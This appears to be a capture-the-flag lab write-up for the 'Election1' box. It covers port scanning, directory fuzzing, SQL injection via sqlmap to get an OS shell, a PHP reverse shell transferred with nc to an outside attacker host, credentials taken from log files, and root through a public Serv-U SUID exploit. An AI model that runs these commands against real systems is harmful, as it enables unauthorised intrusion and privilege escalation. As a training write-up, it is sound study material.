


Election1 is an interesting box that requires various skills to exploit and escalate privileges It starts with HTTP enumeration, identifying an Apache server hosting a vulnerable election management system. Initial access was gained through exploiting SQL Injection vulnerabilities, leading to the discovery of exposed credentials. These credentials were used to access the administrative panel of the election system.
A remote code execution vulnerability was exploited using SQLMap, allowing the upload of a PHP reverse shell to gain initial shell access.
Privilege escalation involved lateral movement by inspecting log files, revealing additional credentials. These credentials facilitated further access, where SUID binaries and running processes were analyzed.
The final privilege escalation was achieved by exploiting a known vulnerability in the Serv-U binary with SUID permissions, ultimately leading to root access.

# Overview



## 1. Intelligence Gathering

### Port Scan

```bash
sudo nmap -Pn -sV -sC -p- --open 192.168.233.211 -T5 -v 
```

Output
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

searching for vuln

```bash
sudo nmap --script=vuln -p22,80 192.168.233.211
```

output
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /phpinfo.php: Possible information file
|_  /phpmyadmin/: phpMyAdmin
```

## 2. Enumeration

### Port 80



> Robots.txt
> 

[http://192.168.233.211/robots.txt](http://192.168.233.211/robots.txt)


> phpmyadmin
> 


> phpinfo.php
> 


> PHP Version 7.1.33-14
> 

**Fuzzing of directories and files**

```bash
feroxbuster -u http://192.168.233.211/ -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirb/big.txt -x php,asp,txt,xml,bak,log
```

output

301      GET        9l       28w      321c http://192.168.216.211/election => http://192.168.216.211/election/
301      GET        9l       28w      327c http://192.168.216.211/election/admin => http://192.168.216.211/election/admin/
> 

**CMS**

[http://192.168.233.211/election/](http://192.168.233.211/election/)


here was access to the administrative dashboard.

[http://192.168.216.211/election/card.php](http://192.168.216.211/election/card.php)


Decryption with the magic tool.


> user:1234␊pass:Zxc123!@#
> 

[http://192.168.216.211/election/admin/](http://192.168.216.211/election/admin/)


Access to the admin panel.


## 3. Exploitation

To realize this exploitation, I used the reference to the Election 2.0 vulnerability on the Medium website.

[https://medium.com/@h.kehn1/election-2-0-authenticated-remote-code-execution-vulnerability-f603491adb74](https://medium.com/@h.kehn1/election-2-0-authenticated-remote-code-execution-vulnerability-f603491adb74)

Create a new 'candidate'.


To edit, Burp Suite was used to intercept the request.


Save the request.

req

```php
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: 192.168.216.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 16
Origin: http://192.168.216.211
Connection: close
Referer: http://192.168.216.211/election/admin/kandidat.php?_added
Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_guru=5; PHPSESSID=4b8evpp42r24ge0j3rcr5p8cl0; el_lang=en-us

aksi=fetch&id=77
```

injection with sqlmap

```bash
sqlmap -r req --level=5 --risk=3 --os-shell -p id
```


Select [4] PHP


Select [4] brute force search


Getting the OS shell


Create the php reverse shell

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php fl0k1.php
```


To send it with the nc tool

```bash
#KALI
rlwrap -cAr nc -nlvp 1234 < fl0k1.php
#TARGET
nc 192.168.45.190 1234 > fl0k1.php
```


Execute PHP reverse shell

```bash
php fl0k1.php
```

Initial Access


## 4. Post-Exploitation

Importing the shell with python3

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 4.1 Lateral Escalation

Searching to log file

```bash
find / -name *.log 2>/dev/null
```


Found the credentials admin


> user love: P@$$w0rd@123
> 

### 4.2 Privilege Escalation

```bash
su love #after put the pass P@$$w0rd@123
```

Search for suid binaries

```bash
find / -perm -4000 2>/dev/null
```


Check the processes

```bash
ps aux | grep serv
```


Search to public exploit (”serv-u exploit in google”) and found: [https://www.exploit-db.com/exploits/47009](https://www.exploit-db.com/exploits/47009)

Instructions


Explanation:

Serv-U is an FTP (File Transfer Protocol) server software that might be installed on the system. If there is a known vulnerability in this software and it is running with elevated privileges, it can be exploited to gain root access.

Root Access


Compile & Run


```bash
gcc 47009.c -o pe && ./pe
```

